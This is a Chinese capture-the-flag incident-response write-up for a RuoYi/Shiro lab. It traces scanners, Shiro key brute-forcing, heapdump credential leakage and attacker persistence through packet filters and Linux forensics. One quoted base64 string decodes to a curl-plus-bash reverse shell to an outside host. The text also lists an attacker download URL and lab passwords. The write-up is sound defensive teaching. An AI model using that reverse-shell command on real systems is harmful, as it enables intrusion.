


## 前言

> 环境来源：[州弟学安全|学习干货|实战某次行业攻防应急响应(附环境)](https://mp.weixin.qq.com/s/2eYZGnDaD6M0sdrIVPhbhQ)

被攻击站点使用的是spring boot框架，我们此处使用若依复现，被利用到的点会在其中

## 环境

```
系统: Ubuntu 22.0.4

CPU: 4颗

内存: 4G

空间: 保证6G左右

应急主机: 192.168.0.211

网关: 192.168.0.1/24

其它傀儡机: 段内

账号/密码: root/security123

流量包: /home/security/security.pcap

注: 因未使用中间件开放WEB，所以日志全程以流量包分析
```

## 环境下载

通过网盘分享的文件：行业攻防应急响应环境
链接: https://pan.baidu.com/s/14O8bIKh9CvRyg6cazahqgw 提取码: bnvm 

## 题目

```
1. 根据流量包分析首个进行扫描攻击的IP是
2. 根据流量包分析第二个扫描攻击的IP和漏扫工具，以flag{x.x.x.x&工具名}
3. 提交频繁爆破密钥的IP及爆破次数，以flag{ip&次数}提交
4. 提交攻击者利用成功的密钥，以flag{xxxxx}提交
5. 提交攻击者获取到的所有服务的弱口令，多个以&提交，如flag{xxx&xxx&xxx}
6. 根据应急响应方法，提交利用漏洞成功的端口，多个以&连接，如：flag{port&port&port}
7.  根据流量包分析，提交攻击者利用密钥探测成功的dnslog地址
8.  根据流量包分析，提交攻击者反弹shell的地址和端口，以flag{x.x.x.x&port}提交 
9.  攻击者在主机放置了fscan(已改名)，经扫描拿下一台永恒之蓝漏洞主机，以此为线索进行提交fscan绝对路径
10. 另类方法：提交此fscan工具的MD5值，以flag{xxxxxx}提交
11. 攻击者为了权限维持，在主机放置了仿真远控工具，需提交此远控工具的下载地址，以flag{http:xxx.xx/xxx}
12. 攻击者就知道你会这样找到，所以又创建了一条相关的脚本，使用其他方法进行下载，提交脚本的绝对路径
13. 攻击者创建了一个隐藏用户，提交此用户的用户名，以flag{xxxx}提交
```

### 1、根据流量包分析首个进行扫描攻击的IP是

> flag{192.168.0.223}

已知被攻击主机IP为**192.168.0.211**，所以我们可以使用过滤器进行过滤 **ip.dst == 192.168.0.211**


排除掉 **192.168.0.200**的ping包，这是物理机发送的正常探测包，往下找到源IP为**192.168.0.223**看到，疑似存在端口探测行为


使用过滤器筛选 **ip.dst == 192.168.0.211&&ip.src==192.168.0.223**看到共请求七万多次，再往下还有http协议


使用过滤器筛选，看到端口探测的包的数量

```
ip.dst == 192.168.0.211&&ip.src==192.168.0.223&&tcp.flags.syn == 1 
```


继续回到一开始**192.168.0.223**扫描机器流量阶段，可以看到前有端口探测，后有目录文件扫描，被扫描的端口有12333和9988


 回到Linux主机，我们可以执行 netstat查看到对外开放的两个WEB端口正是这两个


### 2、根据流量包分析第二个扫描攻击的IP和漏扫工具，以flag{x.x.x.x&工具名}

> flag{192.168.0.200&acunetix}

还是根据时间排序，已知第一个扫描的IP行为是端口探测和文件扫描，在后续进行筛选是可以将此IP过滤掉

```
ip.dst == 192.168.0.211&&ip.src!=192.168.0.223
```


 翻过去上面ping包后，看到**192.168.0.200**的IP使用**56529**端口在批量进行扫描，还有HTTP协议，可以进一步对此IP根据

```
ip.dst == 192.168.0.211&&ip.src==192.168.0.200&&http
```


进行过滤后看到以上IP对WEB端口进行了6000次有规律的WEB扫描，由于12333端口是若依框架，不存在的文件会302跳转


继续往下查找，寻找漏洞扫描器特征，主要从UA、字典特征，行为特征、DNSlog地址、url中的某些地址查看


 在以上图片中，我们看到在160872次流量中，有`bxss.me`域名，这是漏扫器 acunetix或称 AWVS的特征

> 参考：[扫描器特征-|-蓝队的自我修养之事中监控 | HVV经验分享](https://cloud.tencent.com/developer/article/1815280)

 经过此次筛选我们已知，**192.168.0.200**的IP，行为特征是，已知开放的WEB端口，使用AWVS漏扫器进行漏洞扫描，次数少，特征明显

### 3、提交频繁爆破密钥的IP及爆破次数，以flag{ip&次数}提交

> flag{192.168.0.226&1068}

继续筛选条件，将上方已知攻击行为的IP排除在外，筛选后看到是192.168.0.226在请求，先查看有无异常

```
ip.dst == 192.168.0.211&&ip.src!=192.168.0.223&&ip.src!=192.168.0.200
```


上图看到此IP一直请求被攻击机12333端口，我们单列出来看结果

```
ip.dst == 192.168.0.211&&ip.src==192.168.0.226
```


上图看到，前面是正常的初次连接，进行的TCP会话，但是往后看，297346流量后，全是请求login接口，很有规律，打开流量包看到疑似在爆破shiro密钥


上图看到，追踪http流以后，第一个请求先确认了shiro框架的存在，接着就是爆破shiro密钥的行为(若依框架此处开启了shiro安全框架)

```
ip.dst == 192.168.0.211&&ip.src==192.168.0.226&&http.request.uri=="/login"
```


使用以上过滤条件筛选到，**192.168.0.226**这个IP，爆破shiro密钥1068次，去除(初次请求握手和探测shiro)三次


目前已知192.168.0.226这个IP行为目的明显，已知开放的WEB端口，已知框架类型和可能存在的漏洞并尝试利用


### 4、提交攻击者利用成功的密钥，以flag{xxxxx}提交

> flag{c+3hFGPjbgzGdrC+MHgoRQ==}


 对以上已知的攻击行为IP进行过滤，看到IP为192.168.0.242刚开始就爆破密钥

```
ip.dst == 192.168.0.211&&ip.src!=192.168.0.223&&ip.src!=192.168.0.200&&ip.src!=192.168.0.226
```


 过滤器中加入此IP进行跟进分析行为

```
ip.dst == 192.168.0.211&&ip.src==192.168.0.242
```

 跟进此IP后，前面经过爆破，没有成功，而后访问了9988端口，访问/actuator/heapdump文件进行下载(heapdump：JVM 内存信息，分析出明文密码)



下载heapdump，使用相关工具提取密钥，此处我用的**JDumpSpider**

```
https://github.com/whwlsfb/JDumpSpider
```


### 5、提交攻击者获取到的所有服务的弱口令，多个以&提交，如flag{xxx&xxx&xxx}

> falg{ruoyi123&admin123&123456}

这个在流量中看不到，只需看heapdump明文密码即可，从上往下分析，第一个就是数据库密码是弱口令，为ruoyi123


 接着往下看到若以的两个账号的默认口令同样为admin123


在往下找到若依框架开启的druid监控服务默认口令为123456


### 6、根据应急响应方法，提交利用漏洞成功的端口，多个以&连接，如：flag{port&port&port}

> flag{9988&12333}

已知对外开放的端口为22、9988、12333端口，22端口为远程连接，**9988**端口在前期被**192.168.0.223**进行端口扫描和文件扫描，被**192.168.0.200**使用AWVS进行扫描，被**192.168.0.242**访问并下载heapdump进行后续利用

```bash
ip.dst == 192.168.0.211&&tcp.port==9988
```


而12333端口是若依搭建的框架，被前面IP进行扫描且进行过爆破，最后一步在**192.168.0.242**这个IP获取到shiro密钥

```
ip.dst == 192.168.0.211&&tcp.port==12333
```


所以综上所述，9988端口是被直接利用获取敏感信息，从而导致12333后续被攻击成功

### 7、根据流量包分析，提交攻击者利用密钥探测成功的dnslog地址

> flag{1dvrle.dnslog.cn}

在攻击者成功利用密钥探测成功后，会先探测此主机是否出网，往往会使用dnslog进行测试，我们只需筛选DNS协议及主机

```
dns&&ip.src==192.168.0.211
```


流量不多，仔细查看翻阅，排除掉正常的域名地址，找到dnslog的地址

### 8、根据流量包分析，提交攻击者反弹shell的地址和端口，以flag

### {x.x.x.x&port}提交 

> flag{192.168.0.251:8888}

 我们此处继续筛选，因为爆破和利用shiro都是在若依进行的，若依走的是HTTP协议，直接筛选即可

```
ip.dst==192.168.0.211&&ip.src==192.168.0.242&&http
```

  shiro的利用过程一般分为以下几个步骤，较为详细


 此处我们可从下往上逆推流量进行解密，因为前面爆破密钥，爆破构造链等多次，从上往下找不好定位


我这是在过滤后结果最后流量中追踪的，复制出cookie中rememberMe中的值进行解密，脚本我这里用的希谭实验室ABC123大佬写的工具


> Y3VybCAtLWNvbm5lY3QtdGltZW91dCAzIGh0dHA6Ly96dXg4bW96dW9rcmNxN3dzMHR2a2I3cWFsMXJyZmcuYnVycGNvbGxhYm9yYXRvci5uZXQvMi8gLWQgZGF0YT0kKChiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMC4yNTEvODg4OCAwPiYxKXxiYXNlNjQgLXcgMCk=

 我们可以看到，进行命令执行的Java函数，以及执行的参数进行的base64编码，和最后使用的恶意工具

https://www.bejson.com/enc/base64/


通过解码以上base64编码后，看到使用curl进行连接burpsuite的dnslog地址，然后去执行系统命令，此处burp地址方便本地查看结果，通过以上信息看到反弹的shell地址


### 9、攻击者在主机放置了fscan(已改名)，经扫描拿下一台永恒之蓝漏洞主机，以此为线索进行提交fscan绝对路径

> flag{/opt/.f/.s/.c/.a/.n}

  因为是反弹shell，所以在流量包处直接按照以下条件过滤即可

```
ip.dst==192.168.0.211&&ip.src==192.168.0.251&&tcp.port==8888
```


在主机层面，直接搜索即可，因为给出提示，扫描出了永恒之蓝主机，且fscan默认在扫描后在当前目录生成一个名为result.txt的文件


```bash
grep -rl 'MS17-010' / 2>/dev/null # 根据关键字筛选
grep -rl '192.168.0' / 2>/dev/null # 根据网段筛选
```


上图中看到，流量包中也存在明文，有些师傅可能会纳闷，为什么流量包内会携带呢，我们再去看流量包


在TCP/IP协议中，会话需要经过三次握手和四次挥手，流量包存在是因为SYN，ACK包中存在明文流量，使用以下条件进行过滤

```
ip.dst==192.168.0.211&&ip.src==192.168.0.251&&tcp.port==8888&&tcp.flags.syn == 1 && tcp.flags.ack == 1
```

  根据标志位进行过滤相应的流量包，然后查看明文操作


至此可以明白流量传输的过程和寻找fscan存放的位置

### 10、另类方法：提交此fscan工具的MD5值，以flag{xxxxxx}提交

> flag{b8053bcd04ce9d7d19c7f36830a9f26b}

有些师傅会问，万一他把result.txt文件删了呢，你怎么模糊搜索，很好，非常好的问题，所以这个时候，用到了MD5值(此处我是用的是md5sum工具)

```bash
find / -type f -exec md5sum {} \;
```

 这个命令是递归从根目录下使用md5sum计算所有文件的MD5列出，但是不好的是数据量太大，容易卡死


 继续对命令进行优化，只对可执行文件列出MD5值，导入到一个文件中，然后对比fscan的MD5

```bash
find / -type f -executable -exec md5sum {} \;>1.txt
```


此处我对所有可执行文件的MD5进行输出到1.txt文件，然后接着对原fscan的MD5进行对比


有些师傅会问，我这要MD5有啥用啊，我们首先要知道，每个文件都是一个独立的个体，MD5是唯一的，改名不改内容，MD5是不变的，在首次查杀到这个病毒木马文件后，会记录此文件的MD5值并入库，后面直接对比此文件的MD5，就无需再次查杀，浪费资源，MD5相当于文件的独立身份，如直接使用刚刚的MD5去微步查看到是fscan工具


### 11、攻击者为了权限维持，在主机放置了仿真远控工具，需提交此远控工具的下载地址，以flag{http:xxx.xx/xxx}

> falg{http://zhoudinb.com:12345/qxwc.sh}


 当然了，我们可以继续查看流量包，明文看到攻击者的操作，排除掉流量包，我们使用主机如何去查呢


 计划任务可以看到，每10分钟执行.qxwc.sh，至于为什么直接这样，这是攻击者做计划任务的一个常规手段，属于一个细节上的地方，这一块主要是考虑到计划任务的配置排查


### 12、攻击者就知道你会这样找到，所以又创建了一条相关的脚本，使用其他方法进行下载，提交脚本的绝对路径

> flag{/home/security/upload/.CCC/.happy.sh}

排除计划任务，在Linux中还存在另一种方法，就是开机自启，我们可以通过systemctl查看，他的执行文件路径在/etc/systemd/system/，创建任务是通过此目录下进行定位文件名创建任务名

```
ls -l --time-style=long-iso /etc/systemd/system/ | sort -k 6,7
```

  使用以上命令可以按照最后改变时间进行排序，从下往上看可疑文件


 看到有happy.service疑似非系统自带任务，查看后确认为恶意文件，接着查看相应文件，并确认绝对路径


### 13、攻击者创建了一个隐藏用户，提交此用户的用户名，以flag{xxxx}提交

> flag{xj1zhoudi@kali}

```bash
cat /etc/passwd |grep bash
```

 通过以上命令查看到只有两个用户拥有登录权限


 确认shadow文件没有问题，查看可登录用户的/.ssh目录，并查看公钥文件，最终在/root/.ssh/.id_rsa.pub看到可疑用户名



 所做的操作，在反弹shell端口中都是明文操作，通过流量包过滤，可看到明文流量(因为传输过程没有加密)

```bash
ip.dst==192.168.0.211&&ip.src==192.168.0.251&&tcp.port==8888&&tcp.flags.syn == 1 && tcp.flags.ack == 1
```


